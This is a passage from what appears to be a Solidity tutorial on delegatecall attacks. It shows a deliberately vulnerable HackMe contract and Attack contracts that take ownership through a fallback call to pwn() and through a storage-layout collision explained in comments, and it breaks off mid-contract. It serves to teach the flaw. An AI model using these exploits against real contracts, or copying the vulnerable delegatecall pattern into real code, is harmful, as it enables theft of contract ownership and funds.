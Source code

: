 ```solidity
        address(lib).delegatecall(msg.data);
    }
}

contract Attack {
    address public hackMe;

    constructor(address _hackMe) {
        hackMe = _hackMe;
    }

    function attack() public {
        hackMe.call(abi.encodeWithSignature("pwn()"));
    }
}
```
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

/*
This is a more sophisticated version of the previous exploit.

1. Alice deploys Lib and HackMe with the address of Lib
2. Eve deploys Attack with the address of HackMe
3. Eve calls Attack.attack()
4. Attack is now the owner of HackMe

What happened?
Notice that the state variables are not defined in the same manner in Lib
and HackMe. This means that calling Lib.doSomething() will change the first
state variable inside HackMe, which happens to be the address of lib.

Inside attack(), the first call to doSomething() changes the address of lib
store in HackMe. Address of lib is now set to Attack.
The second call to doSomething() calls Attack.doSomething() and here we
change the owner.
*/

contract Lib {
    uint256 public someNumber;

    function doSomething(uint256 _num) public {
        someNumber = _num;
    }
}

contract HackMe {
    address public lib;
    address public owner;
    uint256 public someNumber;

    constructor(address _lib) {
        lib = _lib;
        owner = msg.sender;
    }

    function doSomething(uint256 _num) public {
        lib.delegatecall(abi.encodeWithSignature("doSomething(uint256)", _num));
    }
}

contract Attack {
```
